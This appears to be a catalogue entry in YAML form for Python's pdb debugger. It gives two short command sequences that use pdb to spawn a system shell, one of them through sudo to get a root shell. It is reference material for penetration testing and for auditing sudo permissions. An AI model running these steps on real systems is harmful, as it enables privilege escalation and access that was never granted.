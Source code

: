 ```yaml
---
functions:
  shell:
    - code: |
        TF=$(mktemp -d)
        echo 'import os; os.system("/bin/sh")' > $TF/x
        pdb $TF/x
        cont
  sudo:
    - code: |
        TF=$(mktemp -d)
        echo 'import os; os.system("/bin/sh")' > $TF/x
        sudo pdb $TF/x
        cont
---
```

